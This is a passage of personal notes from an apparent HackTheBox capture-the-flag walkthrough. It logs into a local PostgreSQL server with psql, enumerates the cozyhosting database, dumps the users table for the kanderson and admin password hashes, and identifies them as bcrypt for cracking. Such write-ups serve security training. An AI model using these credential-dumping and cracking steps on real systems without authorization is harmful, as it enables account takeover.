 Paste the password

![[HackTheBox/Linux/attachments/Pasted image 20250508221024.png]]
- nope 

Try using psql 
```
psql -h localhost -U postgres 
```

![[HackTheBox/Linux/attachments/Pasted image 20250508221213.png]]

Successfully logged on to postgres

### Enumerating Postgres 

[Reference](https://hacktricks.boitatech.com.br/pentesting/pentesting-postgresql)

List the databases
 `\list`  

![[HackTheBox/Linux/attachments/Pasted image 20250508221656.png]]

Select a database 
`use cozyhosting`

List tables (this didn't work)
`\d`

Reconnecting to psql and specify cozyhosting database

```
psql -h localhost -U postgres -d cozyhosting
```

List tables again 
`\d`

![[HackTheBox/Linux/attachments/Pasted image 20250508221934.png]]

Dump users table 
```
select * from users;
```

![[HackTheBox/Linux/attachments/Pasted image 20250508222018.png]]
- got kanderson and admin hashes

Save these hashes to a file 
![[HackTheBox/Linux/attachments/Pasted image 20250508222108.png]]

### Hashcat

Determine hash type
$2* -> bcrypt
![[HackTheBox/Linux/attachments/Pasted image 20250508222409.png]]
